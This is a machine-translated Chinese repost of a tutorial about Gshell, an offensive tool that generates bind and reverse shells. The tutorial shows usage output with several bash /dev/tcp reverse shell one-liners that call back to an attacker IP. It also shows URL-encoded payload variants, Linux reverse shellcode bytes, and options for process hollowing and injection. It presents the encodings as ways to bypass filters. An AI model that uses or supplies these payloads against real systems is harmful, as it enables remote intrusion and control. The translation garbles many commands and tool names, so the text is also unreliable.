

# Gshell:一个灵活且可扩展的跨平台 shell 生成器工具

> 原文：<https://kalilinuxtutorials.com/gshell/>

.png)

Gshell 是一个简单而灵活的跨平台 shell 生成器工具。一个跨平台的 shell 生成器工具，可以让您在任何系统中生成任何您想要的 shell，为您提供完全的控制和自动化。

是跨平台的，您可以在以下操作系统中使用它:

*   基于 Unix 的系统
*   GNU/Linux
*   Windows 操作系统
*   马科斯

生成以下 shells:

*   绑定 Shells:目标有一个监听端口，我们连接到目标。
*   反向 Shells:我们有一个监听端口，目标连接到我们。

支持以下编码(截至目前):

*   URL 编码:绕过 URL 过滤器
*   Base64/32/16 编码:绕过字符串/关键字过滤器
*   PowerShell Base64 编码

支持以下 IP 版本:

*   IPv4
*   IPv6

支持的协议:

*   传输控制协议（Transmission Control Protocol）
*   用户数据报协议(User Datagram Protocol)
*   网间控制报文协议(Internet Control Messages Protocol)

**注意:您可以添加自己的使用其他协议的 shells，比如 DNS** 。

支持以下语言和工具:

*   PowerShell
*   计算机编程语言
*   尝试
*   嘘
*   Perl 语言
*   Socat
*   网猫
*   （美国）北卡罗来纳州
*   Awk
*   左上臂
*   NodeJS
*   OpenSSL
*   服务器端编程语言（Professional Hypertext Preprocessor 的缩写）
*   红宝石
*   用于远程联接服务的标准协议或者实现此协议的软件(可为动词)
*   Golang
*   C#
*   镖
*   绝妙的
*   更多…

它是无限的，想加多少就加多少吧！

贝壳被储存在减价文件中，这样对每个人来说都很方便。

您可以通过在以下文件中添加 markdown 代码块来添加更多绑定外壳:

**shell/bind _ shell . MD**

您还可以通过在以下文件中添加 markdown 代码块来添加更多反向 shells:

**shell/reverse _ shell . MD**

这些可以是一行，也可以是多行，没关系。如果你愿意，你甚至可以添加 C#多行代码块。

下面是一个反向 shell 命令示例:

**bash-I>/dev/TCP/192 . 168 . 10 . 11/433 0>1**

要添加另一个 shell，只需在代码或命令中用这些占位符替换 IP 地址和端口占位符或变量值:

*   `**$ip**` : IP 地址
*   `**$port**`:端口号

这里有一个例子:

**bash-I>/dev/TCP/$ IP/$ port 0>1**

# 概观

这是帮助菜单:

**PS c:\ g shell>python g shell . py-h
用法:g shell . py[-I][-p][-s][-r][-b][–中空][–injector][–shellcode][–srev][–sbind][–Linux][–base64][–base32][–URL]
[–no-block][-l][-a][-h]
████████████████████████████ 绑定 shell 和/或反向 shell 的样式
版本:1.2
作者:nozerobit
Twitter:@ nozerobit
选项:
-i，–ip
指定 IP 地址
-p，–port
指定端口号
-s，–shell
指定 shell 类型(python、nc、bash 等)
有效负载类型:
-r，–反向受害者与攻击机器通信 –绑定打开受害机器上的监听器
代码片段类型:
–挖空打印过程挖空代码片段
–注入器打印过程注入器代码片段
Shellcode 必需选项:
–Shellcode 生成 Shellcode， 需要–srev 或–sbind 和–Linux
–srev 反向外壳代码
–sbind 绑定外壳代码
–Linux Linux 外壳代码
编码选项:
–base64 添加 base64 编码
–base32 添加 base32 编码
–base16 添加 base16 编码
–url 添加 URL 编码
Markdown 选项:
–解析
时无阻塞跳过`code blocks`**

## 侦听器和连接器的示例

与 nc TCP 连接:

**nc -v**

使用 nc UDP 连接:

NC-vu IP 端口

## 粘合壳和反向壳示例

示例，生成 bash 反向 shells:

**PS C:\gshell > python。\ g shell . py-I 192.168.111.120-p 443-r-s bash
[+]IP v4 地址:192 . 168 . 111 . 120 有效。
[+]端口号:443 有效。
[+] Shell 类型有效
[+]准备反向 Shell
[+]生成 bash Shell
bash-I>&/dev/TCP/192 . 168 . 111 . 120/443 0>&1
————下一个代码块————————
0<&196；exec 196</dev/TCP/192 . 168 . 111 . 120/443；sh<&196>&196 2>&196
————下一个代码块——————
/bin/bash-l>/dev/TCP/192 . 168 . 111 . 120/443 0<1 2>&1
————下一个代码块———**

## 编码示例

下面是一个编码示例:

**PS C:\gshell > python。\ g shell . py-I 192.168.111.120-p 443-r-s bash–URL
[+]IP v4 地址:192 . 168 . 111 . 120 有效。
[+]端口号:443 有效。
[+] Shell 类型有效
[+]准备反向 Shell
[+]生成 bash Shell
[+]添加 URL 编码
bash+-I+% 3E % 26+% 2f dev % 2 ftcp % 2f 192 . 168 . 111 . 120% 2f 443+0% 3E % 261% 0A
———下一个代码块————
0% 3C % 26196% 30**

## 外壳代码示例

以下是外壳代码的示例:

**PS C:\gshell > python。\ g shell . py-I 192.168.220.131-p 4433–shellcode–srev–Linux
[+]IP v4 地址:192 . 168 . 220 . 131 有效。
[+]端口号:4433 有效。
[+]生成反向外壳代码
[+]生成 Linux 外壳代码
\ x89 \ xe5 \ x31 \ xc0 \ x31 \ xc9 \ x31 \ xd2 \ x50 \ x50 \ xb8 \ x1 \ x1 \ x1 \ xbb \ xc1 \ xa9 \ xdd \ x82 \ x31 \ xc3 \ x53 \ x66 \ x68 \ X11 \ x51 \ x66 \ x6a \ x02 \ x31 \ xc0 \ x31 \ xdb \ x66**

# 在 Linux 中安装

克隆或下载存储库:

**git 克隆 https://github.com/nozerobit/gshell**

安装要求:

**python 3-m pip install-r g shell/requirements . txt**

# 在 Windows 中安装

克隆或下载存储库:

**git 克隆 https://github.com/nozerobit/gshell C:\ Tools**

以 CMD 管理员身份安装 chocolatey:

**@ powershell-no profile-execution policy Bypass-Command " iex((new-object net . webclient)。download string(' https://chocolatey . org/install . PS1 ')"&&设置路径= % PATH %% all users profile % \ chocolate y \ bin**

[**Download**](https://github.com/nozerobit/gshell)